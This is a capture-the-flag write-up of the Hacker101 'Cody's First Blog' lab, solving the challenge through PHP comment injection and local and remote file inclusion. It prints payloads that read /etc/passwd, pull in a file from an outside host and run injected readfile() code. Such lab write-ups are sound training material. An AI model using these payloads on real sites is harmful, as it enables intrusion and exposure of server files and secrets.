

# Hacker101 - Cody's First Blog

| Difficulty | Skills | Flags |
|------------|--------|-------|
| `moderate` | `web`  | 3     |

This time we have a page implemented with PHP. We are going to break some unsafe coding to perform mostly Local File Inclusion (LFI) attacks.

## What situation do we have?

We are looking at Cody's first blog. He wants to share some controversial opinions of his. His first point: PHP's `include()` function is safe, as nobody but himself can upload files and the server can't talk to anyone outside of its network. We will see about that.

On his blog, we are able to post comments. If we post a comment, we are forwarded to a page that says our comment has to be approved.

All of this takes place on the root directory of the page. So no path or GET-parameters are supplied. 

## flag0 - Cross Site... PHPing?

Our comments are not instantly displayed. So any chance for XSS is pretty low, as an admin might need to approve it. Nonetheless, let's check what happens if we try the most naive payload:

Well, nothing happens. We get the aforementioned notice that our comment needs to be approved and that's it. Going back and reloading the page does not change anything either.

But Cody is talking about PHP and that he is confident about using it as a templating language. Can we maybe insert PHP code? Let's try for a simple but very interesting function: `phpinfo()`. If executed, it prints heaps of information about the server. Nothing an admin wants to share publicly. So what happens for the following comment?

`<php? phpinfo(); ?>`

We are rewarded with the flag? I would not have expected it to just be displayed here, but I guess we were right with our approach to use PHP code? Going back to the site and reloading sadly does not print our desired `phpinfo()` output. Ah well, at least this flag is done.

## flag1 - Who needs authentication?

As there does not seem much to go on from here, let's take a look at the source code of the main page.

Ooooh, there is some commented HTML! It's a link to an admin page? Let's check it out:

Damn. We are prompted with a login form. Hammering it with any SQL injection stuff does not really lead to anything. But for some reason we are still able to comment? On a login page? Maybe the login part is just *included* (😉) into a blog construct with a title and the comment functionality? We navigated to that page with a GET-parameter. What if we hammered it with any wierd input?

`/?page=iliketrains`

We were right about the include part! It seems the GET parameter simply gets `.php` appended to it and is piped into an `include()` call... A very bad thing to do! Never allow user input on things like that, if avoidable. And if not, try to check and filter it as much as possible. Whitelists are always the best solution here. Also it seems that `index.php` is the main file we are working on, where all the pages are included into. What happens if we try to include it into itself? This is what we get for the following parameter:

`/?page=index`

Hmm, this doesn't work. Somehow we exceeded the memory limit, although I don't really understand the error message. No matter, let's try something else. I have learned in a very interesting course at uni ([Hackerpraktikum](https://informatik.rub.de/nds/teaching/hackerpraktikum/)) that some versions of PHP had problems with null byte terminating strings. Can we end our input with a `%00` to omit the `.php` and include something like `/etc/passwd`? Let's try this parameter:

`/?page=/etc/passwd%00`

I guess it tried but it didn't work... What else can we try? The original parameter was `admin.auth.inc`. The `inc` might reference to the include part and `admin` might be the page we want to access. But we do not really want the `auth` part... so... What about this?

`/?page=admin.inc`

Success! We got the admin page. We can see all the comments that we have posted. And all the way at the bottom we find the *admin flag*. (I should note that I tried a lot of other different things before I found this solution...)

## flag2 - Local(host) File Inclusion

We are the admin now! Let's approve the PHP-comment we created previously and see what happens:

Nothing. :( Maybe something changed in the source code?

There is our comment! But it seems like there is some sort of filtering on PHP input... We could try to break the filter (I tried...), but let's take another approach.

Maybe something changes if we somehow are able to include the `index.php` where this comment is posted on... Previously we ran into an error. We tried a so called Local File Inclusion (LFI) attack. That means we wanted to get the server to include any file we want the server has in its storage. There is also another variant of this attack, the Remote File Inclusion (RFI). In this case we get the server to include any files from a source outside of itself by passing a remote path. For example this input... let's see what happens:

`/?page=https://kemkes.ddnss.de/files/test`

Hmm... all we get is the main page again. But here Cody says, *"This server can't talk to the outside world. Can it maybe talk to itself?"* The `include()` of `index.php` fails for the local file, but what about the *remote* file? Let's try this input:

`/?page=http://localhost/index`

Nice, now the PHP code works. If you are interested in the full output, I got it here: [phpinfo.md](./assets/phpinfo.md)

Going through the entire output there are some interesting things to see, but nothing that leads to a flag. We need another approach. As always with these challenges, it is very interesting to see the server's source code. We are now able to execute any PHP code we want and PHP got a very nice function called `readfile()`. This just reads a given file and prints its content. So what if we add this as another comment?

``<?php readfile(`index.php`); ?>``

Looks like we got the last flag... Oh, no, that's the first flag! To make more sense of the output, let's take another last look at the source code now.

Here we can see, that just the complete PHP code of the `index.php` file got printed, which of course can not be easily rendered with HTML.

And we got the actual last flag in line 38. And also a nice insight into Cody's excellect skills of creating a secure website. I think the root user with a password for the database is a nice touch. We have shown him more than enough that using user input for `include()` is not the best thing to do...